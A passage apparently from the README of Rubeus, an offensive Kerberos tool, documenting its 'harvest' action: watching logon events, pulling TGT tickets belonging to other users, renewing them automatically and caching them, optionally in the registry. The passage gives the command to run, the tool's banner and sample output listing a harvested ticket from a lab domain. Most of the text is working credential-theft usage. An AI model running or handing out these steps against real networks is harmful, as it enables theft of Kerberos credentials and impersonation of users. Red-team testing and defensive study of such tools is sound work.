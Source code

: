           doIFujCCBbagAwIBBaE...(snip)...


    [*] Extracted  1 total tickets

**Note that this action needs to be run from an elevated context!**


## harvest

The **harvest** action takes monitor one step further. It monitors the event log for 4624 events every /interval:MINUTES for new logons, extracts any new TGT KRB-CRED files, and keeps a cache of any extracted TGTs. On the /interval, any TGTs that will expire before the next interval are automatically renewed (up until their renewal limit), and the current cache of "usable"/valid TGT KRB-CRED .kirbis are output as base64 blobs.

This allows you to harvest usable TGTs from a system without opening up a read handle to LSASS, though elevated rights are needed to extract the tickets.

Further, you can pass the /registry flag to save the tickets into the registry for later extraction, such as `/registry:SOFTWARE\HARVEST`. You can remove the registry save data by `Get-Item HKLM:\SOFTWARE\HARVEST\ | Remove-Item -Recurse -Force`.

    c:\Rubeus>Rubeus.exe harvest /interval:30

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v0.0.1a

    [*] Action: TGT Harvesting (w/ auto-renewal)

    [*] Monitoring every 30 minutes for 4624 logon events

    ...(snip)...

    [*] Renewing TGT for dfm.a@TESTLAB.LOCAL
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1520 bytes
    [*] Received 1549 bytes

    [*] 9/17/2018 6:43:02 AM - Current usable TGTs:

    User                  :  dfm.a@TESTLAB.LOCAL
    StartTime             :  9/17/2018 6:43:02 AM
    EndTime               :  9/17/2018 11:43:02 AM
    RenewTill             :  9/24/2018 2:07:48 AM
    Flags                 :  name_canonicalize, renewable, forwarded, forwardable
    Base64EncodedTicket   :

        doIFujCCBbagAw...(snip)...
